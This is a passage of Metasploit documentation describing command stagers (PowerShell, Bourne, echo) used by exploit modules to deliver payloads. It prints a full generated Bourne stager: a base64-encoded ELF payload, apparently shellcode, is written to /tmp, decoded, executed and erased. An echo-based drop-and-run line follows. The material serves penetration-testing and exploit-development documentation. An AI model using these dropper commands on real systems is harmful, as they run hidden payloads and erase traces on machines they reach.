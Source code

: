 ## PowerShell Invoke-WebRequest - Windows Only
To use the PowerShell Invoke-WebRequest stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'psh_invokewebrequest' ]
```

Or set the :psh_invokewebrequest key to execute_cmdstager:
```ruby
execute_cmdstager(flavor: :psh_invokewebrequest )
```

## Bourne Command Stager - Multi Platform
The [Bourne](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/bourne.rb) command stager supports multiple platforms except for Windows. Just like many other stagers, it writes a base64 encoded payload to disk, but then it tries to decode it using four different commands: base64, openssl, python, and perl.  This is very useful if the target's OS is unpredictable. You can see the way it attempts to use multiple decoding techniques by setting `verbose` to `true` and launching an exploit that has `bourne` as a supported command stager flavor and selecting it as the flavor:
```
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAA
AAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoK
QVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXAoFh8lRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+
Wg8FSIXAeO3/5g==>>'/tmp/XtMnQ.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (w
hich openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; pri
nt base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)
')) 2> /dev/null > '/tmp/IPUov' < '/tmp/XtMnQ.b64' ; chmod +x '/tmp/IPUov' ; '/tmp/IPUov' ; rm -f '/tmp/IPUov' ; rm -f '
/tmp/XtMnQ.b64'"]
```

To use the Bourne stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'bourne' ]
```

Or set the :bourne key to execute_cmdstager:
```ruby
execute_cmdstager(flavor: :bourne)
```

## Echo Command Stager - Multi Platform
The [echo](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/echo.rb) command stager is suitable for multiple platforms except for Windows. It just [echos](http://manpages.ubuntu.com/manpages/trusty/man1/echo.1fun.html) the payload, chmod and execute it. An example of that looks similar to this:
```bash
echo -en \\x41\\x41\\x41\\x41 >> /tmp/payload ; chmod 777 /tmp/payload ; /tmp/payload ; rm -f /tmp/payload
```
